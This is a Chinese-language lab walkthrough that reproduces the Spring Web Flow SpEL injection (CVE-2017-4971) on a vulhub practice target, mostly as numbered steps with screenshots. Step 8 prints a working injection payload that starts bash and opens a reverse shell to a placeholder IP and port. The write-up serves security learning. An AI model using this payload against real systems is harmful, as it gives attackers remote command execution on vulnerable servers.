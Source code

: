 # Spring Web Flow 远程代码执行（CVE-2017-4971）by [scholar](https://github.com/Frivolous-scholar) 

## 概述

Spring WebFlow 是一个适用于开发基于流程的应用程序的框架（如购物逻辑），可以将流程的定义和实现流程行为的类和视图分离开来。在其 2.4.x 版本中，如果我们控制了数据绑定时的 field，将导致一个 SpEL 表达式注入漏洞，最终造成任意命令执行。

## 漏洞复现

1、首先打开靶场。

![1](./1.png)

2、输入 login 进入登录页面，然后进行登录，左边有账号密码。

![2](./2.png)

3、输入账号密码进行登录。

![3](./3.png)

4、访问 /hotels/1 目录，并点击 Book Hotel

![4](./4.png)

5、随便输入内容，并点击 Proceed

![5](./5.png)

6、点击 Confirm 并进行抓包。

![6](./6.png)

7、利用服务器对本地端口进行监听。

![7](./7.png)

8、利用 POC 反弹 shell，POC如下。

`_(new+java.lang.ProcessBuilder("bash","-c","bash+-i+>%26+/dev/tcp/IP/PORT+0>%261")).start()=vulhub`

![8](./8.png)

9、反弹成功，查看 Flag.

![9](./9.png)